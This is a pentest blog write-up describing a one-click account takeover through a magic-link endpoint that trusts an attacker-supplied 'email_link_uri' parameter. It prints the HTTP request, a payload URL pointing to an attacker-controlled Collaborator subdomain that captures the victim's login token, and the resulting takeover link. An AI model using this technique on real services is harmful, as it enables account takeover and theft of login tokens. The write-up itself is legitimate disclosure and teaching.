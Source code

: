 ```yaml
---
title: Magic Links as Gateways to Account Takeovers
author: sl4x0
image:
  path: /assets/images/pentesting/magic-link-flow.gif
date: 2024-03-04 23:00:00 +0800
categories: Pentesting
description: "How a Magic Link can be used to take over an account with a mistake on a single parameter"
tags: [ATO, Magic Links]
toc: true
---
```


﷽

Hello, today I will discuss a `1-Click ATO` bug that I encountered during a pen-test engagement at
`BugSwagger LLC`. Let’s say the target name is: `host.io`.

## Starting with Sign-up

During the sign-up process, there are two methods of registration: signing up with a **non-existent** email address and signing up with an **existing** email address.

![Sign-up](/assets/images/pentesting/1.webp)

The first kind of sign-up is the normal one. You simply input your email address and click submit. A confirmation email will be sent to you to ensure that you are the owner of the email address. After confirming your email address, you will proceed to insert your information and complete the account creation process (name, company name, etc.).

### Signing up with an existing Email

The second option only works when you check the circle next to the sentence “I will be joining an existing `Host` account.” This option entails two scenarios:

**First**: If you have already registered with an account, you will be sent an email containing a magic link that allows you to log in directly without needing a password.

**Second**: If you have not registered with the email before, you will simply confirm your email and complete the sign-up process as mentioned above.

However, our focus is primarily on the **first scenario**!

## The Misused Parameter

```http
POST /account/v2/auth/magiclink/email/ HTTP/2
Host: sub.host.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://app.host.io/
Content-Type: application/json
Content-Length: 192
Origin: https://app.host.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers

{"email":"myFirend@email.com","referral_code":null,"email_link_uri":"https://host.io","require_ad_spend":false,"account_type":"Standard"}
```

Upon sending this request I observed two things: first the `email_link_uri` parameter and second the response itself.

![Response](/assets/images/pentesting/2.webp)

The response received after investigation is not the token located on the magic link sent to the victim, which enables them to log in. The magic link that enables the victim to log in is structured as follows:

```http
https://host.io/?login_token=[different_token]&account_type=Standard&require_ad_spend=False
```

This link contains a `unique login token` different from the one located in the response. The Trick here is how we can leak the token that was sent to the victim.

Remember the `email_link_uri` parameter? I tried manipulating it so I could hold the Collaborator link instead of the website URL itself. However, I encountered a weird response.

![Response](/assets/images/pentesting/3.webp)

That triggers the `CORS Misconfiguration Bypasses` inside my head 😄.

I tried to add the link below:

```http
https://host.io.muk4beh062sbtx1v86cglfhd74dx1npc.oastify.com
```

And hell yeah! It succeeded!

![Response](/assets/images/pentesting/4.webp)

And the link that was sent to the victim looks like this one:

![Response](/assets/images/pentesting/5.webp)

Now, When the victim clicks on this link he will just go my collaboration server and the victim login token will be sent to my server as below:

![Response](/assets/images/pentesting/6.webp)

Now you can just remove the collaborator server and leave the URL as below to takeover the victim account:

`https://host.io/?login_token=5c0cdce5658eae411247e6cfb015c7906088ff2b&account_type=Standard&require_ad_spend=False`

In summary, always inspect every parameter in important requests like reset password, email change, set password, etc. It may uncover vulnerabilities that you couldn’t imagine existed. Thank you for reading, and you can follow me on Twitter: [@sl4x0](https://twitter.com/sl4x0).
